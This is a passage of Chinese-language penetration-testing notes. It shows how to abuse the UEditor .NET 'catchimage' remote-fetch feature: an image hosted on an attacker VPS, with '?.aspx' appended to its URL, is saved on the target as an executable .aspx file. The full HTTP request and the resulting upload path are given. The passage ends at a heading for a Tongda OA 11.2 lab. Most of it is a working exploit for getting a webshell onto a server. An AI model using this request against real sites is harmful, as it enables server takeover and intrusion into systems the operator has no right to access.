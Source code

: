 ![image-20240423221203781](D:\Infiltration\笔记\note\图片\image-20240423221203781.png)



输入上传到vsp的图片后面加上?.aspx

```
http://vps/1.png?aspx
```

![image-20240423232747819](D:\Infiltration\笔记\note\图片\image-20240423232747819.png)

提交成功后就会出现路径

![image-20240423233034779](D:\Infiltration\笔记\note\图片\image-20240423233034779.png)

访问路径

```
http://host/ueditor/net/upload/image/20240423/6384951176534815122938293.aspx
```

![image-20240423233259598](D:\Infiltration\笔记\note\图片\image-20240423233259598.png)



数据包

```
POST /ueditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: host
Content-Length: 177
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfZQkkQNb3JCvdMYL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,jv;q=0.8
Connection: close

------WebKitFormBoundaryfZQkkQNb3JCvdMYL
Content-Disposition: form-data; name="source[]"

http://vps/1.png?.aspx
------WebKitFormBoundaryfZQkkQNb3JCvdMYL--

```

### 通达OA

环境：通达OA—11.2

ip：192.168.100.122:8001
